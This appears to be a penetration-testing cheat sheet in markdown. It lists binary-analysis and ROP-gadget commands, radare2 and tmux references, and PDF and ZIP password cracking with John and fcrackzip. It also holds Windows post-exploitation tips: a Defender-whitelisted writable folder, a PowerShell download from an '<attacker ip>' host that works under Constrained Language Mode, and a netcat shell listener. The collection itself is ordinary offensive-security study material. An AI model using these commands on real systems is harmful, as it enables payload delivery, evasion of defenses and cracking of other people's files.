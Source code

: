 # Exploit dev
Show binary protections:  
```
$ rabin2 -I <binary>
$ checksec -f <binary>
```

List imported functions:  
```
$ rabin2 -i <binary>
```

List functions written by the programmer (approx.):  
```
$ rabin2 -qs <binary> | grep -ve imp -e ' 0 '
```

List symbols: (a = inlcude debug symbols, n = sort by address [numeric])
```
$ nm -a -n <binary>
```

Strings:  
```
$ rabin2 -z <binary>
```

ROP gadgets:
```
$ python3 Ropper.py -f <file(s)>
      --all
      --search 'inc eax'
      --jmp eax
      --badbytes 000a0d
      --console
      --help
```

## Radare2
| Function                  | Command |
| ---                       | --- |
| Open file                 | ```$ r2 <binary>``` |
| Help                      | ```> ?``` |
| Quit                      | ```> q``` |
| Analyse all               | ```> aa``` |
| List functions            | ```> afl``` |
| Disassemble function      | ```> pdf [@ <function name>]``` |

# Python

## Host webserver in current directory
```python3 -m http.server```
```python2 -m SimpleHTTPServer```

# PDF files
## Tools
https://blog.didierstevens.com/programs/pdf-tools/

## Crack
Download Bleeding John (https://github.com/magnumripper/JohnTheRipper). Use pdf2john.pl.
```Kali
$ perl pdf2john.pl file.pdf > pdf-hash.txt
$ john --wordlist=/w/rockyou.txt pdf-hash.txt
```

# PIL
## 
```python
from PIL import Image
img = Image.open("image.png")
pixels = list(img.getdata())
```

# ZIP files
## Crack
```Kali
$ fcrackzip -u -D -p '/w/rockyou.txt' -v file.zip
```

# Windows

## World-write/readable Directory, Windows Defender whitelist, and on UAC bypass list
```C:\Windows\System32\spool\drivers\color\```

## Powershell

### Is Poserwhell running in Constrained language mode?
```$ExecutionContext.SessionState.LanguageMode```

### Download file over HTTP (works in CLM)
```PS C:\> Invoke-WebRequest -uri http://<attacker ip>/<file> -o <output filename> ```
```PS C:\> iwr -uri http://<attacker ip>/<file> -o <output filename> ```

# PostSploit

## Arrow-support for nc
```rlwrap nc -nvlp 4444```

# Tmux
| Action            | Command |
|---                |---|
| New tmux          | ```tmux new -s ...``` |
| List tmuxs        | ```tmux ls``` |
| Attach to tmux    | ```tmux a -t ...``` |
| Detatch from tmux | ```Ctrl+b d``` |
| Scroll mode       | ```Ctrl+b [``` |
| Exit scroll mode  | ```q``` |

